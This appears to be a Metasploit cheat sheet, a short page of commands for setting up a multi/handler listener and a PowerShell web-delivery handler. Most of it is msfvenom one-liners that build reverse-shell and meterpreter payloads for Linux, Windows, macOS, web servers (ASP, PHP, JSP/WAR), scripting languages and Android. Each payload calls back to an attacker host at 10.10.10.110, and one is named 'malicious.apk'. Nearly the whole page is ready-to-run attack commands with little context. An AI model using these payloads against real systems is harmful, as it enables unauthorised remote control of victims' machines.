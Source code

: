 ## Background {.cols-1}

### Background handler

ExitOnSession : the handler will not exit if the meterpreter dies.

```shell script
$ sudo msfconsole

msf> use exploit/multi/handler
msf> set PAYLOAD generic/shell_reverse_tcp
msf> set LHOST 0.0.0.0
msf> set LPORT 4444
msf> set ExitOnSession false

msf> generate -o /tmp/meterpreter.exe -f exe
msf> to_handler
```

## Basic msfvenom {.cols-1}

### Generate a meterpreter

```shell script
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw -o shell.php
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
$ msfvenom --platform android -p android/meterpreter/reverse_tcp lhost="10.10.10.110" lport=4242 R -o malicious.apk
```

## Basic handler {.cols-2}

### Meterpreter Webdelivery

Set up a Powershell web delivery listening on port 8080.

```shell script {.wrap}
msf> use exploit/multi/script/web_delivery
msf> set TARGET 2
msf> set payload windows/x64/meterpreter/reverse_http
msf> set LHOST 10.0.0.1
msf> set LPORT 4444
msf> run
```
